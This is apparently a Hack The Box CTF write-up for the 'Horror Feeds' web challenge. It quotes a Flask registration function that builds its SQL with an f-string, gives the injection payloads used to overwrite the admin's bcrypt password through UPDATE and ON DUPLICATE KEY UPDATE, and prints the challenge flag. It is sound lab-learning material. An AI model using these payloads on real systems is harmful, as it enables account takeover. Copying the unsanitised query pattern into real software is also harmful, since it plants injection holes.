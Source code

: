 # CTFname - Horror Feeds

* **Category:** Category
* **Points:** 200

## Challenge

> An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?

## Solution
```python
./web_horror_feeds/challenge/application/database.py

def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

* As shown above there is a `register()` function which requires the paramaters `(username, password)` so it can be used in the query to store credentials to a database.
* The vulnerability occurs as there is no sanitization of the `username` therefore makes it possible to execute malicious SQL statements

![image](https://user-images.githubusercontent.com/78451563/198285821-bb4f404b-9c25-4976-bc96-ae7db112453d.png)

* To try login as admin we could try to update the admin's bcrypt password as creating another admin entry wouldn't work
</br>

### SQLi exploitation steps

![image](https://user-images.githubusercontent.com/78451563/198289332-b30893d0-8bb9-49af-b75b-c3bb43234e5e.png)

1. Firstly i ended the firstly query to make it easier:
```sql
admin","password");-- -
```
2. Now to create our custom password by using the `generate_password_hash()`:


```python
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()

def verify_hash(password, passhash):
    return bcrypt.checkpw(password.encode(), passhash.encode())
```
* The server verfies our password using `bcrypt.checkpw` which involves the comparison of the already hashed stored password and the hashed entered password.

![image](https://user-images.githubusercontent.com/78451563/198292904-6832a28a-f3c7-4679-9a69-ff4a80d3d3ff.png)

* We can forge a password by utilising the `generate_password_hash(password)` function

4. Now to update the admins bcrypt password. I used `UPDATE` to change the admin's password and `COMMIT` to save the changes:

![image](https://user-images.githubusercontent.com/78451563/198295460-ebb27271-0f2e-48a3-82b2-be162b4cf988.png)

```sql
UPDATE users SET password='$2b$12$/SM/o3oxLx.rpLNtBrhrkOCXxK/myFjO7DsE83Xws95RSy8j8mjN6' WHERE username='admin'; COMMIT;-- -
```
5. Now to send to the server:

![image](https://user-images.githubusercontent.com/78451563/198296946-d034e2e8-6475-4daa-82c7-9a1310bc02aa.png)

![image](https://user-images.githubusercontent.com/78451563/198297003-93da0bb4-28e2-44d0-ac93-3ca2bbede074.png)

* While this does update the admin's password we get this error `Commands out of sync; you can't run this command now` meaning:
```
If you get Commands out of sync; you can’t run this command now in your client code, you are calling client functions in the wrong order.
```
* To resolve this error i used the `ON DUPLICATE KEY UPDATE` query.
```sql
admin","test") ON DUPLICATE KEY UPDATE username='admin',password='$2b$12$XFj7IPgUFo4kI06hG9H5jOpoRPH3N5xqwF.tWdyefOJwiUOR6KCfa'-- -
```

![image](https://user-images.githubusercontent.com/78451563/198306235-edbda84e-9564-461e-8102-e1da3745d3b8.png)

![image](https://user-images.githubusercontent.com/78451563/198306332-3b666681-382d-40b3-b736-8dd644feb4a1.png)


 [Payload Query Reference](https://chartio.com/resources/tutorials/how-to-insert-if-row-does-not-exist-upsert-in-mysql/)

```
Flag: HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}
```
